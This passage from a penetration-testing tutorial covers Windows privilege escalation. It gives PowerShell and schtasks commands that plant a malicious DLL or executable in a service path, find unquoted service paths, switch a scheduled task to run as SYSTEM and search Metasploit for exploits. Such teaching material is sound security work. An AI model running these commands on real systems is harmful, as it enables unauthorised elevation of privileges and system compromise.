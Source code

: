 - Step 2: **Replace the DLL**

```powershell
# Replace a DLL
Copy-Item C:\Malicious\evil.dll C:\Program Files\Service\evil.dll -Force
```

#### Unquoted Service Paths

**Unquoted Service Paths** are a common misconfiguration in Windows services. Attackers exploit this vulnerability to execute arbitrary code with elevated privileges.

- Step 1: **Identify Unquoted Service Paths**

```powershell
# Identify unquoted service paths
Get-WmiObject -Query "SELECT * FROM Win32_Service WHERE (PathName LIKE '% %') AND (NOT (PathName LIKE '\"%\"%'))"
```

- Step 2: **Exploit the Unquoted Service Path**

```powershell
# Place a malicious executable in the unquoted path
Copy-Item C:\Malicious\malware.exe "C:\Program Files\Unquoted Path\evil.exe"
```

#### Scheduled Tasks

Scheduled tasks are often overlooked but can provide an opportunity for privilege escalation. Pentesters analyze and manipulate scheduled tasks to gain elevated access.

- Step 1: **List Scheduled Tasks**

```powershell
# List scheduled tasks
schtasks /query /fo LIST /v
```

- Step 2: **Analyze and Modify Tasks**

```powershell
# Modify a scheduled task
schtasks /change /tn "TaskName" /ru "NT AUTHORITY\SYSTEM"
```

### Using Exploits

Exploiting known vulnerabilities is another way to escalate privileges on a Windows system. Attackers look for vulnerabilities in software, operating systems, or third-party applications that allow them to gain higher access levels.

- Step 1: **Search for Known Exploits**

```powershell
# Search for available exploits
msfconsole
search windows
```
